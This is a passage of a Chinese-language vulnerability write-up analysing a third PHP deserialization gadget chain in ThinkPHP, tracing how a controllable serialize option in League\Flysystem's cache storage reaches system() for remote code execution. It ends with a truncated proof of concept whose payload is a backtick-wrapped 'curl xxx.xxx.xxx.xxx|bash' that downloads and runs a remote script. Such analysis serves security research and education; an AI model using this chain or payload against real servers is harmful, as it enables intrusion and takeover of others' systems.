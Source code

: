 ```
    use think\Model;

    class Pivot extends Model
    {
    }
}
```

![image-20211104232549090](images/25.png)

# 第三条链子

## 漏洞分析

回到上一条链子的set方法

![image-20211104233025402](images/26.png)

当我们退出getCacheKey后往下面走会进入一个serialize方法

跟进serialize

![image-20211104233116709](images/27.png)

这里的`$this->options['serialize']`可控,绕过`$data`的值可控的话就可以去RCE

回到前面可控$data怎么来的

![image-20211104233326102](images/28.png)

serialize方法的参数值是set方法的`$value`

继续回溯到set方法前面的save方法看看`$value`是如何来的

![image-20211104233438810](images/29.png)

是`$content`的值,跟进`getForStorage()`

![image-20211104233516032](images/30.png)

返回一个json格式的数据

所以这里$data是一个被处理后的json数据,不过system函数能够处理json数据

![image-20211105101952127](images/31.png)

不过这里只有linux系统适用,因为反引号在window不起作用

## 漏洞复现

poc

```
<?php

namespace League\Flysystem\Cached\Storage {
    abstract class AbstractCache
    {
        protected $autosave = false;
        protected $complete = "`curl xxx.xxx.xxx.xxx|bash`";
    }
}

namespace think\filesystem {

```